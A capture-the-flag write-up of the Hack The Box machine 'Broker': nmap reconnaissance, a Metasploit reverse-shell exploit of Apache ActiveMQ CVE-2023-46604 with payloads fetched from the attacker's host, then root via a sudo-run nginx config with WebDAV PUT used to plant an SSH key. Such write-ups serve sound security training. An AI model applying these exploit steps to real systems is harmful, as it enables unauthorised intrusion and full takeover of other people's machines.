


# broker

## recon

initial nmap scans show an ssh port 22 open and a webserver running on port 80. inital probing shows that the webserver on port requires some kind of basic auth, which is verified when trying to access the page through the browser.

```
$ nmap 10.10.11.243 -sV -oA broker-nmap-scripts -sC -p22,80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-02 11:49 EST
Nmap scan report for 10.10.11.243
Host is up (0.027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.65 seconds
```

the server appears to be running linux, and seems to somehow be related to rabbit mq (so broker refers to a message queue broker).

a full nmap scan accross all ports reveals further ports:

```
$ nmap 10.10.11.243 -sV -p- -v
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-02 11:50 EST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 11:50
Scanning 10.10.11.243 [2 ports]
Completed Ping Scan at 11:50, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:50
Completed Parallel DNS resolution of 1 host. at 11:50, 0.01s elapsed
Initiating Connect Scan at 11:50
Scanning 10.10.11.243 [65535 ports]
Discovered open port 22/tcp on 10.10.11.243
Discovered open port 80/tcp on 10.10.11.243
Discovered open port 1883/tcp on 10.10.11.243
Discovered open port 61616/tcp on 10.10.11.243
Discovered open port 61613/tcp on 10.10.11.243
Discovered open port 5672/tcp on 10.10.11.243
Discovered open port 61614/tcp on 10.10.11.243
Discovered open port 32837/tcp on 10.10.11.243
Discovered open port 8161/tcp on 10.10.11.243
Completed Connect Scan at 11:50, 20.57s elapsed (65535 total ports)
Initiating Service scan at 11:50
Scanning 9 services on 10.10.11.243
Completed Service scan at 11:50, 25.55s elapsed (9 services on 1 host)
NSE: Script scanning 10.10.11.243.
Initiating NSE at 11:50
Completed NSE at 11:50, 7.30s elapsed
Initiating NSE at 11:50
Completed NSE at 11:51, 0.19s elapsed
Nmap scan report for 10.10.11.243
Host is up (0.031s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
1883/tcp  open  mqtt
5672/tcp  open  amqp?
8161/tcp  open  http       Jetty 9.4.39.v20210325
32837/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.4.39.v20210325
61616/tcp open  apachemq   ActiveMQ OpenWire transport
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
... SNIP ...

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.85 seconds
```

a full scan with default scripts against these ports reveals additional information:

```
$ nmap 10.10.11.243 -sV -oA broker-nmap-scripts-2 -sC -p22,80,1883,5672,8161,32837,61613,61614,61616
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-02 13:36 EST
Nmap scan report for 10.10.11.243
Host is up (0.025s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
32837/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
... SNIP...
```

so the potential attack surface could lie within any of these services:

- OpenSSH 8.9p1
- 3ubuntu0.4
- nginx 1.18.0
- Jetty 9.4.39.v20210325
- Apache ActiveMQ (stomp)
- ActiveMQ OpenWiretransport (apachemq)

also the mqtt broker on port 1883 offers two topics:

- ActiveMQ/Advisory/MasterBroker: 
- ActiveMQ/Advisory/Consumer/Topic/#: 

## initial foothold

according to the apachemq open wire service's fingerprint strings, there is a version number of 5.15.15 involved. without knowing much about activemq, i decided to search for and came across CVE-2023-46604 (https://www.cvedetails.com/cve/CVE-2023-46604/), which implies that there is a remote code execution vulnerability, which sounds like something we could use to establish our initial foothold via a reverse shell.

even better, there is a public metasploit exploit: https://www.rapid7.com/db/modules/exploit/multi/misc/apache_activemq_rce_cve_2023_46604/

> This module exploits a deserialization vulnerability in the OpenWire transport unmarshaller in Apache ActiveMQ. Affected versions include 5.18.0 through to 5.18.2, 5.17.0 through to 5.17.5, 5.16.0 through to 5.16.6, and all versions before 5.15.16.

i configured metasploit as follows

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show options

Module options (exploit/multi/misc/apache_activemq_rce_cve_2023_46604):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.10.11.243     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                       /basics/using-metasploit.html
   RPORT    61616            yes       The target port (TCP)
   SRVHOST  10.10.14.5       yes       The local host or network interface to listen on. This must be an address
                                        on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8081             yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (cmd/linux/http/mips64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WG
                                                  ET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      MPLJKxCeWk       no        Name to use on remote system when storing payload; cannot cont
                                                  ain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.10.14.5       yes       The listen address (an interface may be specified)
   LPORT               1337             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux
```

however, when running the exploit, i get this:

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > exploit

[*] Started reverse TCP handler on 10.10.14.5:1337 
[*] 10.10.11.243:61616 - Running automatic check ("set AutoCheck false" to disable)
[+] 10.10.11.243:61616 - The target appears to be vulnerable. Apache ActiveMQ 5.15.15
[*] 10.10.11.243:61616 - Using URL: http://10.10.14.5:8081/ldqkiNdbE2qDW
[*] 10.10.11.243:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.10.11.243:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.10.11.243:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.10.11.243:61616 - Server stopped.
[*] Exploit completed, but no session was created.
```

what happens under the hood is quite interesting. first a server is created that servers a manipulated xml file:



then a second webserver on port 8080 serves the actual payload elf executable.

for some reason, however, this file does not get executed...

... and here's why: i picked the wrong payload. 

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show payloads

Compatible Payloads
===================

   #    Name                                                        Disclosure Date  Rank    Check  Description
   -    ----                                                        ---------------  ----    -----  -----------
   0    payload/cmd/linux/http/mips64/meterpreter_reverse_http                       normal  No     HTTP Fetch
   1    payload/cmd/linux/http/mips64/meterpreter_reverse_https                      normal  No     HTTP Fetch
   2    payload/cmd/linux/http/mips64/meterpreter_reverse_tcp                        normal  No     HTTP Fetch
   ... SNIP ...
   13   payload/cmd/linux/http/x64/shell/reverse_sctp                                normal  No     HTTP Fetch, Linux Command Shell, Reverse SCTP Stager
   14   payload/cmd/linux/http/x64/shell/reverse_tcp                                 normal  No     HTTP Fetch, Linux Command Shell, Reverse TCP Stager
   ... SNIP ...
```

i picked #2, but the correct payload should be cmd/linux/http/x64/shell/reverse_tcp. looking at the manual exploit at https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ shows how a payload should be constructed manually with `msfvenom` and this led me here.

let's configure the exploit as such:

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show options

Module options (exploit/multi/misc/apache_activemq_rce_cve_2023_46604):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.10.11.243     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                       /basics/using-metasploit.html
   RPORT    61616            yes       The target port (TCP)
   SRVHOST  10.10.14.5       yes       The local host or network interface to listen on. This must be an address
                                        on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8081             yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (cmd/linux/http/x64/shell/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WG
                                                  ET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      xOtIMMXK         no        Name to use on remote system when storing payload; cannot cont
                                                  ain spaces.
   FETCH_SRVHOST       10.10.14.5       no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.10.14.5       yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux
```

which gives us

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > exploit

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] 10.10.11.243:61616 - Running automatic check ("set AutoCheck false" to disable)
[+] 10.10.11.243:61616 - The target appears to be vulnerable. Apache ActiveMQ 5.15.15
[*] 10.10.11.243:61616 - Using URL: http://10.10.14.5:8081/MGvLPsE9JAbexu
[*] 10.10.11.243:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.10.11.243:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] Sending stage (38 bytes) to 10.10.11.243
[*] Command shell session 1 opened (10.10.14.5:4444 -> 10.10.11.243:53978) at 2024-01-02 14:47:58 -0500
[*] 10.10.11.243:61616 - Server stopped.

whoami
activemq

ls -lh
total 6.4M
-rwxr-xr-x 1 activemq activemq 1.6M Jan  2 19:24 BCfxihll
-rwxr-xr-x 1 activemq activemq  250 Jan  2 19:47 XgdjDTJevOg
-rwxr-xr-x 1 activemq activemq  21K Apr 20  2021 activemq
-rwxr-xr-x 1 activemq activemq 6.1K Apr 20  2021 activemq-diag
-rw-r--r-- 1 activemq activemq  17K Apr 20  2021 activemq.jar
-rw-r--r-- 1 activemq activemq 5.5K Apr 20  2021 env
-rwxr-xr-x 1 activemq activemq 1.6M Jan  2 19:39 fHFcufBYAAO
drwxr-xr-x 2 activemq activemq 4.0K Nov  5 00:13 linux-x86-32
drwxr-xr-x 2 activemq activemq 4.0K Nov  5 00:13 linux-x86-64
drwxr-xr-x 2 activemq activemq 4.0K Nov  5 00:13 macosx
-rwxr-xr-x 1 activemq activemq 1.6M Jan  2 19:27 nVJLmZYFSY
-rwxr-xr-x 1 activemq activemq 1.6M Jan  2 19:23 psgHTHet
-rw-r--r-- 1 activemq activemq  82K Apr 20  2021 wrapper.jar
```

let's upgrade our shell:

```
which python3
/usr/bin/python3

python3 -c 'import pty; pty.spawn("/bin/bash")'
activemq@broker:/opt/apache-activemq-5.15.15/bin$
```

## user flag

the user flag is in the activemq user's home:

```
activemq@broker:/opt/apache-activemq-5.15.15/bin$ cd ~
cd ~

activemq@broker:/home/activemq$ ls
ls
user.txt

activemq@broker:/home/activemq$ cat user.txt
cat user.txt
960fe798b636708a5849989b65faaab2
```

## persistent foothold

in order to take a break, i decided to play around with establishing a persistent foothold by creating a valid ssh keypair on the target machine and then copying the private key over to my machine. it worked well and allows me to login in via

```
$ ls -la .ssh
total 20
drwxr-xr-x  2 kali kali 4096 Jan  2 15:25 .
drwx------ 20 kali kali 4096 Jan  2 15:09 ..
-rw-------  1 kali kali 2602 Jan  2 15:22 broker
-rw-------  1 kali kali  978 Jan  2 15:23 known_hosts

$ ssh -i broker activemq@10.10.11.243
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jan  2 08:26:12 PM UTC 2024

  System load:           0.0615234375
  Usage of /:            71.2% of 4.63GB
  Memory usage:          13%
  Swap usage:            0%
  Processes:             159
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.243
  IPv6 address for eth0: dead:beef::250:56ff:feb9:ca3

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jan  2 20:24:31 2024 from 10.10.14.5
activemq@broker:~$ ls .ssh
authorized_keys  id_rsa  id_rsa.pub
activemq@broker:~$ ls .ssh -la
total 20
drwx------ 2 activemq activemq 4096 Jan  2 20:23 .
drwxr-x--- 5 activemq activemq 4096 Jan  2 20:20 ..
-rw-r--r-- 1 activemq activemq  569 Jan  2 20:23 authorized_keys
-rw------- 1 activemq activemq 2602 Jan  2 20:20 id_rsa
-rw-r--r-- 1 activemq activemq  569 Jan  2 20:20 id_rsa.pub
```

## escalation to root

running `sudo -l` gives us:

```
activemq@broker:/home/activemq$ sudo -l
sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

which already gives us some interesting clues regarding possible attack vectors. before enumerating any further with linenum or linpeas, let's see what we can do with this...

`man nginx` reveals that nginx can be started with a custom configuration by creating a config file and then starting the server with that file. my initial goal was to create a php file that would give me a reverse shell, but this didn't work out, as i couldn't create a config file that would execute the script rather than just delivering it for download. the next best thing i could come up with was creating traversable index of the system's root directory. that, combined with running nginx as root should give us read-access to the entire filesystem on the machine. let's try this:

```
user root;

worker_processes auto;
pid /run/nginx.pid;

events {
        worker_connections 768;
}

http {

        sendfile on;
        tcp_nopush on;
        types_hash_max_size 2048;

        include /etc/nginx/mime.types;
        default_type application/octet-stream;

        server {
                listen 4711 default_server;
                location / {
                        root /;
                        autoindex on;
                        # index index.php;
                }
        }
}
```

let's place this `nginx.conf` inside our own home and then run

```
sudo nginx -c ~/nginx.conf
```

with our browser, we can now navigate to the http-server:



## root flag

the flag can be obtained through the browser or via curl:

```
$ curl 10.10.11.243:4711/root/root.txt
f8c8d8fdd1d6dca4acb3ca0b7a955e40
```

## summary

that was a fun machine and i was able to do it entirely on my own. i had some issues with the metasploit module, which i was able to fix after some investigation. getting full admin access to the machine, not only read-access to the file system would be nice. i'll look into the official writeup for this. but the flags where successfully obtained, so i'll count this as a win!

## aftermath

okay, so getting full access was easier than i thought, but required a bit more knowledge about nginx. it turns out that there is a module `ngx_http_dav_module` (https://nginx.org/en/docs/http/ngx_http_dav_module.html). adding the line `dav_methods PUT` to our config file enables the WebDAV capabilities for the PUT method, and we can use this to upload files to the server. the plan to create a set of ssh keys locally and then upload the public key as the root users `authorized_keys`.

```
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): /home/kali/.ssh/root
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/root
Your public key has been saved in /home/kali/.ssh/root.pub
The key fingerprint is:
SHA256:IcXWV1/qgg0Dzz43P1m4Hq43oX6SmCRJGX/sSYoQ+pk kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|       .o.   .. .|
|      ..++. .  o.|
|     ..o.+=o  . .|
|    . ..oo.=+. . |
|     . =So+==.o .|
|      E + ooo+.+ |
|         o o o*. |
|          o +o+o |
|           .o=o. |
+----[SHA256]-----+
                                                                                                                  
┌──(kali㉿kali)-[~/.ssh]
└─$ curl -X PUT http://10.10.11.243:4711/root/.ssh/authorized_keys -d "$(cat root.pub)"
                                                                                                                  
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh -i root root@10.10.11.243
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jan  3 10:08:29 AM UTC 2024

  System load:           0.0
  Usage of /:            73.2% of 4.63GB
  Memory usage:          15%
  Swap usage:            0%
  Processes:             165
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.243
  IPv6 address for eth0: dead:beef::250:56ff:feb9:ca3


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

root@broker:~# id
uid=0(root) gid=0(root) groups=0(root)
```

tadaaa!
